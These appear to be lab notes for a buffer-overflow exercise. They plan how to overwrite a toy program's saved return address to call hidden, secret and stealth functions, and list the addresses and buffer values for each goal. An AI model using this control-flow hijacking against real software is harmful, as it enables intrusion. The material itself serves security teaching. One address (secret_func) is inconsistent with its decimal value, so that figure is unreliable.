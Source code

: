 

* recognize features of example 03
* identify values at buffer[0]..buffer[8]
* program has two stages: read indexes of buffer, overwrite indexes of buffer 
  - accepts values in decimal 
  - $ printf "%d" 0x08048661
  - watch exit code 
  - $ if ./writer; then echo "URA"; fi
  - the only way to exit with success (exit code 0) 
	is through the hidden/secret functions
* goal1: exit with success
* overwrite return address 
* call hidden_function
* goal2: exit with success, and get "awsome skills" message
* goal3: exit normally through main, but call stealth function stealthily
							

$ identify addresses with objdump 
	hidden_func  = 0x08048661 = 134514273
	secret_func  = 0x04048678 = 134514296
	stealth_func = 0x080492b4 = 134517428
* return address at buf[6] = 0x08049436 = 134517814
* call hidden_function 
  - overwrite with 134514273, harvest hurrays (goal1)
* call secret_function
  - overwrite with 134514296, harvest hurrays, but no awsome skills?
  - buf[6]=134514296 buf[8]=1111638594 buf[9]=1785358954 (goal2)
  why not buf[7] and buf[8]?
  * call stealth_function, prepare stack so that execution continues normally
  and returns to main 
  - buf[6]=134514296 buf[7]=134517814 buf[8]=1111638594 buf[9]=1785358954 (goal3)
  - at buf[7] we write old value from buf[6], that is, return point in main()  
